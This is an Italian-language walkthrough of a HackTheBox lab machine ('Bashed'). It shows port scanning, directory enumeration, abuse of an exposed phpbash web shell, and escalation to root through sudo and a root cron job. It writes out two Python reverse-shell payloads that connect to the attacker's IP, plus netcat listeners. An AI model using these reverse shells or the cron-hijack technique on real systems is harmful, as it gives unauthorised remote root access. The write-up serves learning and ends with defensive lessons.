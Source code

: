 ** Author: Noto La Diega Alessandro ** 

** TARGET: 10.10.10.68 **

# INFORMATION GATHERING #

Iniziamo con un scan base di nmap
┌──(rot㉿kali)-[/home/kali]
└─# [[Nmap]] -sC -sV -p- 10.10.10.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 09:19 EDT
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 21.60% done; ETC: 09:19 (0:00:36 remaining)
Nmap scan report for 10.10.10.68
Host is up (0.046s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.76 seconds

# ENUMERATION

Analizzando la pagina vediamo che il sito è in php e sembra rimandare a questa pagina github:
https://github.com/Arrexel/phpbash

Proviamo a trovare altre path del sito tramite [[Gobuster]]:
```Bash 

┌──(root㉿kali)-[/home/kali]
└─# gobuster dir -u http://10.10.10.68 -t 10 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/05 09:29:29 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
Progress: 2172 / 81644 (2.66%)^Z
zsh: suspended  gobuster dir -u http://10.10.10.68 -t 10 -w 
```

Nella path /dev/troviamo phpbash.php che semmbre essere una shell in php 

# EXPLOITATION


Scopriamo che siamo utenti www-data e che il sistema operativo è 
Linux bashed 4.4.0-62-generic 83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

Ci mettiamo in ascolto con nc sulla porta 4444
```
┌──(root㉿kali)-[/home/kali]
└─# nc -nvlp 4444               
listening on [any] 4444 ...nc -nvlp 4444
```

Sulla macchina target vediamo se è installato pyhton
which python

utilizziamo questa stringa per ottenere sun revshell

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.27",4444));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'

>mettiamo il nostro ip e la porta sulla quale siamo in ascolto 

Otteniamo cosi una shell

```bash

┌──(root㉿kali)-[/home/kali]
└─# nc -nvlp 4444               
listening on [any] 4444 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.68] 35064
/bin/sh: 0: can't access tty; job control turned off
$ ls      
html
$ 
```

Ci muoviamo fino alle /home e otteiamo la flag

# PRIVESC 

Vediamo con sudo -l se possiamo eseguire qualcosa con privilegi da root

```bash 
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/home/arrexel$ 
```

Dalla ultima stringa possiamo vedere che come utente www-data possiamo eseguire programmi come utente scriptmanager senza password.
Enumerando ulteriormente possiamo vedere che tutte le cartelle sono di proprietà root tranne la directory script che è di proprietà di scriptmanger

```bash

www-data@bashed:/$ ls -la
total 92
drwxr-xr-x  23 root          root           4096 Jun  2  2022 .
drwxr-xr-x  23 root          root           4096 Jun  2  2022 ..
-rw-------   1 root          root            174 Jun 14  2022 .bash_history
drwxr-xr-x   2 root          root           4096 Jun  2  2022 bin
drwxr-xr-x   3 root          root           4096 Jun  2  2022 boot
drwxr-xr-x  19 root          root           4140 May  5 06:18 dev
drwxr-xr-x  89 root          root           4096 Jun  2  2022 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Jun  2  2022 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Jun  2  2022 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 173 root          root              0 May  5 06:18 proc
drwx------   3 root          root           4096 Jun  2  2022 root
drwxr-xr-x  18 root          root            520 May  5 06:25 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Jun  2  2022 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 May  5 06:18 sys
drwxrwxrwt  10 root          root           4096 May  5 07:02 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Jun  2  2022 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
www-data@bashed:/$ cd scripts/
bash: cd: scripts/: Permission denied
www-data@bashed:/$ ls
```

con il comando seguente cambiamo utente in scriptmanager

```bash
www-data@bashed:/$ sudo -i -u scriptmanager
scriptmanager@bashed:~$ 
```

Nella cartella script troviamo due file 

```
scriptmanager@bashed:/scripts$ ls
test.py  test.txt
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ 
```

È un semplice programma Python che scrive nel file test.txt.
Tuttavia, abbiamo visto nell'immagine precedente che test.txt è in esecuzione come root! Anche l'esecuzione del programma python sembra essere pianificata poiché l'ora dell'ultimo accesso al file test.txt è molto recente.
In effetti, lo script sembra essere eseguito ogni minuto!
Probabilmente è un cron job di proprietà di root.
Perché questa è una grande notizia per noi in quanto se cambio il contenuto nel file test.py per inviare una shell inversa, quella shell inversa verrà eseguita come root!


Prima cosa mi metto in ascolto con nc 
```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -nvlp 5555
listening on [any] 5555 ...
```

modifico con nano il file .py con la shell inversa in python che segue:

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((“10.10.14.30”,5555)) 
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);

Ottenaimo cosi un shell da root

```bash
┌──(rot㉿kali)-[/home/kali]
└─# nc -nvlp 5555    
listening on [any] 5555 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.68] 42068
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

# LESSON LEARN

1. Lo sviluppatore non avrebbe dovuto disporre di una web shell che consentisse pubblicamente l'accesso al suo sistema.
2. Una configurazione errata delle autorizzazioni può portare a conseguenze disastrose. Perché l'utente daemon web (www-data) è stato autorizzato a diventare un utente più privilegiato (scriptmanager)? Allo stesso modo, perché uno script creato da un utente non root (test.py) è stato eseguito come root? Questi sono noti come errori di configurazione della sicurezza. 
3. Lo sviluppatore non deve disporre di directory sensibili pubblicamente accessibili disponibili sul proprio server, in quanto come dimostrato è stata facilmente trovata da gobuster.
